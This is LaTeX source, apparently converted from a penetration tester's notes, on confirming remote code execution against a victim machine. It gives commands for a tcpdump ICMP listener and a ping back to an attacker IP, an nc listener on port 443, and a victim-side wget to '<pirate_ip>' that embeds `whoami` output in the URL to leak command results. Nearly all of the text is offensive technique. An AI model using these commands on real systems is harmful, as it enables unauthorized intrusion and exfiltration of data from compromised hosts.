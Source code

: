 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\begin{document}
Lets try to ping the attacker machine, attacker can use wireshark or tcpdump.

On the attacker machine listen to icmp connection

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{tcpdump}\NormalTok{ icmp}
\end{Highlighting}
\end{Shaded}

remote code execution ping

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 5 }\OperatorTok{<}\NormalTok{attacker ip}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

\hypertarget{use-wget-and-netcat-to-execute-command}{%
\section*{Use wget and netcat to execute command}\label{use-wget-and-netcat-to-execute-command}}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  listener (attacker)

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}

  \begin{quote}
  {[}!{]} NOTE: use \texttt{rlwrap\ nc\ -nlvp\ 443} for windows machines
  \end{quote}
\item
  powned (victim)

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{wget}\NormalTok{ http://}\OperatorTok{<}\NormalTok{pirate_ip}\OperatorTok{>}\NormalTok{:443/}\KeywordTok{`}\FunctionTok{whoami}\KeywordTok{`}
\end{Highlighting}
\end{Shaded}
\end{enumerate}
\end{document}
